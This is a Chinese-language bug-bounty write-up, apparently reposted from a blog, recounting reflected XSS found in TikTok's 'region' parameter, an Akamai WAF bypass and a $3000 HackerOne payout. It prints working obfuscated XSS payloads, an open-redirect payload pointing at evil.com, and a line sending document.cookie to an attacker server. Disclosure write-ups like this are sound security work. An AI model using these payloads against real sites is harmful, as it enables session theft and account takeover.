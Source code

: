 #  我如何在 TikTok 漏洞赏金计划中赚到 3000 美元  
haidragon  安全狗的自我修养   2025-07-17 04:10  
  
Hackerone.com 上的 TikTok 漏洞赏金计划  
  
  
那只是一个普通的夜晚。一个朋友邀请我去玩《Valorant》（游戏）——典型的夜间例行活动。但不知何故，我拒绝了。我打开了我的 Burpsuite，开始四处寻找赏金任务。这**真是我做过的最棒的决定。**  
  
因为那天晚上，我**在 TikTok 上发现了三个漏洞**，最终让我总共赚了**3000 美元**。  
# 侦察游戏  
  
我的旅程始于简单的侦察。我曾经urlscan.io扫描过所有与TikTok域名相关的端点。经过一番挖掘，我最终得到了一个**庞大的列表——大约有10,000个URL**。  
  
手动滚动浏览（没错，就是手动），我发现一个端点位于一个看起来像是活动共享功能的路径下。该 URL 附带了几个参数——这立刻激起了我的好奇心。（无法分享完整的端点）  
  
我开始尝试这个region参数。为了测试反射，我添加了这个无害的payload：  
  
?region=id'">  
<  
u  
>  
testest  
</  
u  
>  
```
```  
  
你猜怎么着？  
  
**它反映得很干净。没有经过任何清理。没有经过任何编码。**  
# 进入 WAF — Akamai  
  
我心想：“好吧……这可能很有趣。” 所以我用一个经典的有效载荷进行了测试：  
  
">  
<  
img  
src  
=  
x  
onerror  
=  
alert(document.domain)  
>  
  
**被Akamai**屏蔽——TikTok 的 WAF。而且不是普通的 WAF……**难度很高**。  
  
游戏开始。  
# 绕过尝试  
  
我开始深入研究**Akamai WAF 绕过技术**。我发现了一些关于字符串混淆、大小写敏感和标签规避的精彩文章。  
  
一些常见的尝试包括：  
  
</  
ScRiPt  
>  
      → blocked    
</  
SCRIPT  
>  
      → blocked    
</  
ScRpt  
>  
       → not blocked, but also invalid    
</Script+xxx>  → bypassed briefly, but eventually got filtered again  
  
我知道我需要一些更有创意的东西。  
# 有效载荷的演变  
  
经过多次失败的尝试，我想到了这个**看起来很奇怪但有效的**绕过字符串：  
  
}<x>xxx<!--><!>+>+></Script+xxx></script%20x></x><x>xxx<!--><!>+>+>  
  
这样就绕过了过滤——**但是 alert()、confirm() 和 prompt()**在运行时都被阻止了。因此，我选择谨慎行事，先报告了该漏洞，并使用了**开放的重定向有效载荷**，以避免潜在的重复提交。  
  
完整的有效载荷有点疯狂，看起来像这样：  
  
}<x>xxx<!--><!>+>+></Script+xxx><Script+xxx>Object.prototype.BOOMR = 1;  
Object.prototype.url = 'https://portswigger-labs.net/xss/xss.js';  
location.replace('https://evil.com');</script%20x></x><x>xxx<!--><!>+>+>  
  
两天后，我收到了 HackerOne Triage 的回复：  
  
  
  
# 构造一个真正的XSS  
  
我又回到了绘图板上。由于直接访问alert()被屏蔽了，我尝试**使用混淆访问来破解它**：  
  
window  
/*xxx*/  
 ;  
  
全部有效载荷：  
  
<x>xxx<!--><!>+>+></Script+xxx><script%20x>window/*xxx*/['al'%2b'ert'](1);//</script%20x></x><x>xxx<!--><!>+>+>  
  
成功了。我更新了 PoC 并再次发送了它。  
  
内部分类小组回复：  
  
  
  
  
已接受的挑战。  
  
我继续使用这个最终的有效载荷来窃取cookie：  
```
```  
window/*xxx*/['loca'+'tion'] ='http://<your-server>?cookie='+document/*xxx*/['coo'+'kie'];  
  
  
  
轰！确认有效XSS攻击。同一天，**1000美元的悬赏金**落入。  
  
  
  
# 额外奖励：另外两个 Bug  
  
这次胜利之后，我继续深入研究同一路径家族中的更多端点。最终，我又发现了**两个具有相同漏洞的端点**。  
  
同样的技术。同样的XSS。同样的悬赏：**每人1000美元。**  
# 💸 最终结果  
- 第一个漏洞：1000美元  
- 第二个漏洞：1000 美元  
- 第三个漏洞：1000美元  
总计**：3,000 美元**  
  
那天晚上我甚至不需要玩 Valorant。  
  
  
  
# 对黑客同仁的最后思考  
  
漏洞赏金不仅仅关乎技巧——它关乎耐心、侦察、创造力和时机。有时候，**拒绝游戏邀请就能让你多赚几千美元**😂  
  
致所有漏洞猎人：**永远不要低估反射参数**。最简单的漏洞也能带来意想不到的回报——前提是，你知道如何正确构建你的payload。  
  
继续学习，注意安全。  
  
  
- 公众号:安全狗的自我修养  
  
- vx:2207344074  
  
- http://  
gitee.com/haidragon  
  
- http://  
github.com/haidragon  
  
- bilibili:haidragonx  
  
- ![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/vBZcZNVQERHYgfyicoHWcBVxH85UOBNaPMJPjIWnCTP3EjrhOXhJsryIkR34mCwqetPF7aRmbhnxBbiaicS0rwu6w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
-   
- ![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/vBZcZNVQERHYgfyicoHWcBVxH85UOBNaPZeRlpCaIfwnM0IM4vnVugkAyDFJlhe1Rkalbz0a282U9iaVU12iaEiahw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
  
  
